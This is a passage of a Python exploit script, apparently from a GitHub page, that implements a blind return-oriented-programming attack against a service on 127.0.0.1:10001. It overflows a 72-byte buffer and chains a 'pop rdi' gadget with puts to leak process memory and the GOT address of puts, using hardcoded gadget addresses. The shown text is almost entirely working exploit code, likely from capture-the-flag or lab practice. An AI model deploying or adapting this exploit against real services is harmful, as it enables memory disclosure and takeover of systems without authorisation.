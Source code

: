 ```python
            log.info("Can't connect")
            addr -= 1

def dump_memory(buf_size, stop_addr, gadgets_addr, puts_plt, start_addr, end_addr):
    pop_rdi  = gadgets_addr + 9     # pop rdi; ret

    result = ""
    while start_addr < end_addr:
        #print result.encode('hex')
        sleep(0.1)
        payload  = "A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(start_addr)
        payload += p64(puts_plt)
        payload += p64(stop_addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            data = p.recv(timeout=0.1)      # timeout makes sure to recive all bytes
            if data == "\n":
                data = "\x00"
            elif data[-1] == "\n":
                data = data[:-1]
            log.info("leaking: 0x%x --> %s" % (start_addr,(data or '').encode('hex')))
            result += data
            start_addr += len(data)
            p.close()
        except:
            log.info("Can't connect")
    return result

def get_puts_addr(buf_size, stop_addr, gadgets_addr, puts_plt, puts_got):
    pop_rdi  = gadgets_addr + 9

    payload  = "A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_got)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    p = remote('127.0.0.1', 10001)
    p.recvline()
    p.sendline(payload)
    data = p.recvline()
    data = u64(data[:-1] + '\x00\x00')
    log.info("puts address: 0x%x" % data)
    p.close()

    return data

#buf_size = get_buffer_size()
buf_size = 72

#stop_addr = get_stop_addr(buf_size)
stop_addr = 0x4005e5

#gadgets_addr = get_gadgets_addr(buf_size, stop_addr)
gadgets_addr = 0x40082a

#puts_plt = get_puts_plt(buf_size, stop_addr, gadgets_addr)
puts_plt = 0x4005e7     # fake puts
#puts_plt = 0x4005f0    # true puts
```